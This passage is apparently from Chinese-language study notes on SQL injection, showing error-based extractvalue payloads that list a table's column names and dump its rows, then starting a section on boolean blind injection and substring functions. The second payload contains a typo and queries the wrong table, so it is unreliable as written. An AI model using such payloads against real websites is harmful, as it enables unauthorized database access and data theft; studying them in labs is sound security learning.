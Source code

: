##### e.查看表中字段名

```
1' and extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='emails' limit 0,1),0x7e)) --+
```

<img src="../../images/8-20-morning/5. 查看表的字段名.png" alt="5. 查看表的字段名" style="zoom:67%;" />

##### f.查看表里数据

```
1' and extractvalue(1,concat(0x7e,(select group_concat(concat_ws('___',id,email_id)) from information_schema.columns where table_schema=database() and talbe_name='emails' limit 0,1),0x7e)) --+
```

### 6. SQL盲注

#### (1). 概述

* 服务器不会直接返回具体的数据库，只会返回程序开发所**设定的特定信息**
* 页面**不会直接显示**sql执行的结果

#### (2). 布尔盲注

* 在进行SQL注入时，**WEB页面只返回True和False**
* 对返回True或False的情况对数据库的信息**进行猜解**

##### a. 相关函数

###### ①长度截取

* 用于截取**某一列字段中的一部分**，在各个数据库中名称不一样

* substr(arg1,int1,int2)，**int1为截取开始位置(从1开始计算)**，**int2为截取长度**，其余用法完全一样

  1. substr()
  2. substring()
  3. mid()
  4. left()
  5. right()

  ```
  select substr(database(),1,3)
  ```
